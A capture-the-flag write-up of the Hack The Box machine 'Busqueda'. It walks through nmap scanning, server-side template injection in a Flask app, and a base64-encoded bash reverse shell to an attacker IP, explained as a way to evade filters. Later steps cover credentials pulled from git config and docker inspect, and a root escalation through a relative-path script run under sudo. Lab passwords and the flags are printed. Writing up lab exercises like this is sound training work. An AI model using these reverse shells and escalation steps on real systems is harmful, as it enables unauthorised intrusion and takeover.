






# Busqueda
```bash
nmap -sVC -oA scan.txt $ip
```
### Nmap Result


From the `nmap` result we can see that the two ports `22` for `ssh` and port `80 http` are open. 
Port `80` try to redirect use to `http://searcher.htb/` lets add this to `/etc/hosts/`
Afer adding the `search.htb` to the host file we can see the wepage. 
but the header on the nmap shows Apache with the ip but when we run the `curl` with the `ip` and on `searcher.htb` we get two different server header. see the highlighted lines below.

```bash hl_lines="13 35"
➜ busqueda$ curl -v -s 10.129.228.217 1> /dev/null
*   Trying 10.129.228.217:80...
* Connected to 10.129.228.217 (10.129.228.217) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 10.129.228.217
> User-Agent: curl/8.11.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 302 Found
< Date: Fri, 07 Feb 2025 04:03:07 GMT
< Server: Apache/2.4.52 (Ubuntu)
< Location: http://searcher.htb/
< Content-Length: 284
< Content-Type: text/html; charset=iso-8859-1
< 
{ [284 bytes data]
* Connection #0 to host 10.129.228.217 left intact
➜  busqueda$ curl -v -s searcher.htb 1> /dev/null
* Host searcher.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.228.217
*   Trying 10.129.228.217:80...
* Connected to searcher.htb (10.129.228.217) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: searcher.htb
> User-Agent: curl/8.11.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Fri, 07 Feb 2025 04:03:51 GMT
  Server: Werkzeug/2.1.2 Python/3.10.6
< Content-Type: text/html; charset=utf-8
< Content-Length: 13519
< Vary: Accept-Encoding
< 
{ [1146 bytes data]
* Connection #0 to host searcher.htb left intact
```

After going through the burbsuit and testing some Server Site Templete Injection SSTI we came to find the right chars that will spit out system info. see below screenshot for the burbsuit


let's get a reverse shell.
```bash
echo -n "bash -c 'bash -i  >& /dev/tcp/10.10.16.10/9001 0>&1'  " |  base64
```
used spaces to remove the spcial charechters (+ and ==)
`YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTAvOTAwMSAwPiYxJyAg`

### Breakdown:

1. **`echo -n "bash -c 'bash -i >& /dev/tcp/10.10.16.10/9001 0>&1' "`**
    
    - This creates a reverse shell command using `bash`.
    - `bash -i`: Starts an interactive Bash shell.
    - `>& /dev/tcp/10.10.16.10/9001 0>&1`: Redirects standard input/output to the attacker's IP (`10.10.16.10`) on port `9001`, establishing a reverse shell.
2. **`| base64`**
    
    - Encodes the entire command in **Base64** format, making it less suspicious when injected into a vulnerable application.

### Purpose:

- The Base64 encoding is typically used to **bypass security filters**, **evade detection**, or **deliver payloads in an obfuscated way**.
- Once sent to the target system, it can be **decoded and executed** to establish a reverse shell.

### Decoding and Executing:

On the target machine, the attacker can decode and execute it like this:

bash

CopyEdit

`echo "BASE64_ENCODED_STRING" | base64 -d | bash`

This will decode the Base64 string back into the original Bash reverse shell command and execute it, giving an attacker remote access.

## Geting the reverse shell using the base64 encoded string we crated.
string the listener on the kali 
```bash
nc -lvnp 9001
```
### Run on the burbsuit repeater 
This will be placed insdie the __import__('os').system('id') in the bubsuit repeater
```bash
__import__('os').system('echo -n YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTAvOTAwMSAwPiYxJyAg | base64 -d | bash')
```
After running the command above we get a reverse shell on our listener


Spaces are repladed with urlEconded `%20` and added `#` at the end urlEncoded `%20%23%20`

After gettign the shell we look through and nothing interesting until we run to see which ports or application are listening. 
```bash hl_lines="4 5 9"
svc@busqueda:/var/www/app/templates$ ss -lntp
ss -lntp
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                                                     
LISTEN 0      128        127.0.0.1:5000       0.0.0.0:*    users:(("python3",pid=1578,fd=6),("python3",pid=1578,fd=4))
LISTEN 0      4096       127.0.0.1:3306       0.0.0.0:*
LISTEN 0      4096       127.0.0.1:40365      0.0.0.0:*
LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*
LISTEN 0      4096       127.0.0.1:3000       0.0.0.0:*
LISTEN 0      4096       127.0.0.1:222        0.0.0.0:*
LISTEN 0      511                *:80               *:*
LISTEN 0      128             [::]:22            [::]:*  
```
the port `3306` , `5000`, and `3000` lets check the  `mysql` conf file for the `3306`

We know there's apache2 we can head to the `/etc/apache2/siges-enabled/000-default.conf`

```bash hl_lines="21 23"
svc@busqueda:/etc/apache2/sites-enabled$ cat 000-default.conf
cat 000-default.conf
<VirtualHost *:80>
        ProxyPreserveHost On
        ServerName searcher.htb
        ServerAdmin admin@searcher.htb
        ProxyPass / http://127.0.0.1:5000/
        ProxyPassReverse / http://127.0.0.1:5000/

        RewriteEngine On
        RewriteCond %{HTTP_HOST} !^searcher.htb$
        RewriteRule /.* http://searcher.htb/ [R]

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

<VirtualHost *:80>
        ProxyPreserveHost On
        ServerName gitea.searcher.htb
        ServerAdmin admin@searcher.htb
        ProxyPass / http://127.0.0.1:3000/
        ProxyPassReverse / http://127.0.0.1:3000/

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```
We can add the `gitea.searcher.htb` to the `/etc/hosts` file and visit the site.

After navigating through the files in the `/var/www/app/.git` dir we find a `confi` file that has user and password. see below.

we can use this user and password `jh1usoih2bkjaspwe92` to login into the `gitea.searcher.htb` now.

After using the password to list what commands cody can run as a `sudo` user.

```bash hl_lines="10"
svc@busqueda:/var/www/app/.git$ sudo -S -l
sudo -S -l
[sudo] password for svc: jh1usoih2bkjaspwe92
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
svc@busqueda:/var/www/app/.git$ 
```
we can use the `/usr/bin/python3 /opt/scripts/system-checkup.py` check what's there for us.

```bash hl_lines="5 6 7"
svc@busqueda:/var/www/app/.git$ sudo -S /usr/bin/python3 /opt/scripts/system-checkup.py adds
<usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```
It does take an argument at the end where the * is. After giving it a random string argument we can see that it tells us that we can run three things.

- docker-ps
- docker-inspect https://docs.docker.com/reference/cli/docker/inspect/
- full-backup

Let's check out the `docker-inspect` with `{{json .Config}} 9608` so it give the output in json format.


copy the json data so we can format it and go throug it.
```bash
echo -n "json data" | jq .
```
### Output
```bash hl_lines="17 24"
➜  busqueda$ echo -n '{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}' | jq .

{
  "Hostname": "960873171e2e",
  "Domainname": "",
  "User": "",
  "AttachStdin": false,
  "AttachStdout": false,
  "AttachStderr": false,
  "ExposedPorts": {
    "22/tcp": {},
    "3000/tcp": {}
  },
  "Tty": false,
  "OpenStdin": false,
  "StdinOnce": false,
  "Env": [
    "USER_UID=115",
    "USER_GID=121",
    "GITEA__database__DB_TYPE=mysql",
    "GITEA__database__HOST=db:3306",
    "GITEA__database__NAME=gitea",
    "GITEA__database__USER=gitea",
    "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
    "USER=git",
    "GITEA_CUSTOM=/data/gitea"
  ],
  "Cmd": [
    "/bin/s6-svscan",
    "/etc/s6"
  ],
  "Image": "gitea/gitea:latest",
  "Volumes": {
    "/data": {},
    "/etc/localtime": {},
    "/etc/timezone": {}
  },
  "WorkingDir": "",
  "Entrypoint": [
    "/usr/bin/entrypoint"
  ],
  "OnBuild": null,
  "Labels": {
    "com.docker.compose.config-hash": "e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515",
    "com.docker.compose.container-number": "1",
    "com.docker.compose.oneoff": "False",
    "com.docker.compose.project": "docker",
    "com.docker.compose.project.config_files": "docker-compose.yml",
    "com.docker.compose.project.working_dir": "/root/scripts/docker",
    "com.docker.compose.service": "server",
    "com.docker.compose.version": "1.29.2",
    "maintainer": "maintainers@gitea.io",
    "org.opencontainers.image.created": "2022-11-24T13:22:00Z",
    "org.opencontainers.image.revision": "9bccc60cf51f3b4070f5506b042a3d9a1442c73d",
    "org.opencontainers.image.source": "https://github.com/go-gitea/gitea.git",
    "org.opencontainers.image.url": "https://github.com/go-gitea/gitea"
  }
}
```
As we can go throug the json text at the `ENV` we see passwrod (highlighted) for the mysql we can use it to login. we can also test it on other users if we want to. 
If we use this password for the `administrator:yuiu1hoiu4i5ho1uh` on the `gitea.searcher.htb` we can login successfully.

Now we can see all the source code.


After gong the scripts one of the scripts `system-check.sh` I find the line where we can run a full check shell. see the hightlight line in the code below.

```py hl_lines="47"
#!/bin/bash
import subprocess
import sys

actions = ['full-checkup', 'docker-ps','docker-inspect']

def run_command(arg_list):
    r = subprocess.run(arg_list, capture_output=True)
    if r.stderr:
        output = r.stderr.decode()
    else:
        output = r.stdout.decode()

    return output


def process_action(action):
    if action == 'docker-inspect':
        try:
            _format = sys.argv[2]
            if len(_format) == 0:
                print(f"Format can't be empty")
                exit(1)
            container = sys.argv[3]
            arg_list = ['docker', 'inspect', '--format', _format, container]
            print(run_command(arg_list)) 
        
        except IndexError:
            print(f"Usage: {sys.argv[0]} docker-inspect <format> <container_name>")
            exit(1)
    
        except Exception as e:
            print('Something went wrong')
            exit(1)
    
    elif action == 'docker-ps':
        try:
            arg_list = ['docker', 'ps']
            print(run_command(arg_list)) 
        
        except:
            print('Something went wrong')
            exit(1)

    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
            

if __name__ == '__main__':

    try:
        action = sys.argv[1]
        if action in actions:
            process_action(action)
        else:
            raise IndexError

    except IndexError:
        print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)')
        print('')
        print('     docker-ps     : List running docker containers')
        print('     docker-inspect : Inpect a certain docker container')
        print('     full-checkup  : Run a full system checkup')
        print('')
        exit(1)
```

The higlighted line `./full-checkup.sh` is not using a full path so if we run this on directory that we have write access to, it will run a full-check up. so let's create a reverse shell and test to get a reverse shell.

### ReverseShell
Navigate to `/dev/shm` create a file `full-checkup.sh`
```bash
cd /dev/shm
nano full-checkup.sh

#inside the file write a reverse shell

#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.16.10/9001 0>&1'

#Change it to executabel
chmod +x full-checkup.sh
```
After we can do a `sudo -l` and provide the password `jh1usoih2bkjaspwe92` once again to get what we can run as a sudo. use the `full-checkup` that we created as an argument and make sue we are listening on the port `9001` with `nc -lvnp 9001` then run the command below to get a `root` access.
```bash
vc@busqueda:/dev/shm$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
```bash hl_lines="3 11"
root@busqueda:/home/svc# cat user.txt
cat user.txt
2705ce3e3007484fff84e92a45fe4bf9
root@busqueda:/home/svc# cd /root/root.txt
cd /root/root.txt
bash: cd: /root/root.txt: Not a directory
root@busqueda:/home/svc# cd /root
cd /root
root@busqueda:~# cat root.txt
cat root.txt
233779a86876f5fce44ced15c27a77dd
root@busqueda:~# 
```
